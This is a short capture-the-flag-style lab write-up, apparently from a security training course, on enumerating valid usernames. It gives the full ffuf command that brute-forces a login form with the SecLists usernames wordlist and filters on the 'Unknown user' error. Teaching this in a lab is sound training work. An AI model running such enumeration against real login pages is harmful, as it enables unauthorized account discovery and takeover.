 # Brute-Force Attacks

### Enumerate a valid user on the web application. Provide the username as the answer.

To complete this assessment we need the SecLists usernames wordlist and a simple ffuf command to brute-force the an application username.

**Step 1 -** Download the SecLists wordlist:

* [xato-net-10-million-usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)

**Step 2 -** Enumerate with ffuf:

* {% code overflow="wrap" %}
  ```bash
  ffuf -w xato-net-10-million-usernames.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=random" -fr "Unknown user"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

After a few seconds we got the username!
